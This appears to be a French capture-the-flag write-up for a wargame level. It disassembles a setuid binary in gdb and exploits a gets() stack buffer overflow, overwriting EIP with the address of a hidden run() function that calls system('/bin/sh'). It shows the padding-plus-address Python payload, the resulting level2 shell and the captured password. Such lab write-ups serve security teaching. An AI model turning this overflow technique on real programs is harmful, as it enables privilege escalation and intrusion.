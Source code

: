 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
  [...]
  ```
    - On a un binaire appartenant a level2 dans le home

- `./level1`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - rien

- `gdb level1`
  - `info function`
    ```
    [...]
      0x08048444  run
      0x08048480  main
    [...]
    ```
    - On trouve une fonction run en plus du main
  - `disas main`
    ```
      Dump of assembler code for function main:
    [...]
      0x08048486 <+6>:    sub    esp,0x50
    [...]
      0x08048490 <+16>:   call   0x8048340 <gets@plt>
    [...]
    ```
    - Le programme alloue 80 octets (0x50) pour stocker ses variables dans la stack, puis fait un appel a gets()
    - La fonction run n'est pas appelée
    
  - `disas run`
    ```
      Dump of assembler code for function run:
    [...]
      0x08048451 <+13>:	mov    eax,0x8048570
    [...]
      0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
      0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
      0x08048479 <+53>:	call   0x8048360 <system@plt>
    [...]
    ```
    - La fonction run met la valeur située à 0x8048570 dans eax
    - Call fwrite() avec la valeur dans eax (donc la valeur à 0x8048570):
      - `x/s 0x8048570`
        ```
          0x8048570:	 "Good... Wait what?\n"
        ```
    - Call system() avec la valeur située à 0x8048584:
      - `x/s 0x8048584`
        ```
          0x8048584:	 "/bin/sh"
        ```
## Exploit

- L'objectif va être de forcer l'appel de la fonction 'run' par 'main'.
- On va tirer avantage de la [vulnérabilité de gets à un buffer overflow](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351) pour écrire l'adresse de run dans l'EIP. 
- Comme vu plus haut, main alloue 80 octets dans la stack pour ses variables, on va commencer par là:
  - `python -c 'print "a" * 80' > /tmp/exploit`
  - `gdb level1`
    - `layout reg`
    - `run < /tmp/exploit`
    ```
      Starting program: /home/user/level1/level1 < /tmp/exploit

      Program received signal SIGSEGV, Segmentation fault.
      0x61616161 in ?? ()
    ```
    - Nice, on SegFault comme attendu et l'eip est réécrit avec des a:
      ```
        eip            0x61616161       0x61616161
      ```
- L' EIP étant codé sur 4 octets dans un système 32bits, on devrait pouvoir écrire l'adresse de run dans les 4 derniers octets, on vérifie avec un exploit de 76 "a" et 4 "b" :
  - `python -c 'print "a" * 76 + "b" * 4' > /tmp/exploit`
    ```
      eip            0x62626262       0x62626262 
    ```
      - Parfait, l'EIP est écrasé par les 4 derniers octets
- On a vu plus haut que l'adresse de 'run' est 0x08048444, on la passe en little endian avant de la load à la fin de notre exploit:
  - `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit`
  - `cat /tmp/exploit | ./level1`
    ```
      Good... Wait what?
      Segmentation fault (core dumped)
    ```
    - Ok, on lance bien la fonction run, mais le shell est close tout de suite, il faut [garder stdin ouvert avec cat](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process):
      > " The shell doesn't have any input - when it detects EOF it dies. " 
      - `cat /tmp/exploit - | ./level1`
        ```
          Good... Wait what?
          whoami
          level2
          cat /home/user/level2/.pass
          53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
        ```
